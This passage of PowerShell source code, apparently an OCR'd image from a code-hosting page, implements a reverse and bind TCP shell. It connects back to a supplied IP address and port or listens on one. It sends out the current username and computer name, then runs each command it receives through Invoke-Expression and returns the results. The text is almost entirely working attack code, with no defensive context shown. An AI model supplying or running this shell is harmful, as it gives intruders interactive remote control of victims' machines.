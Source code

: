 ```powershell
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
```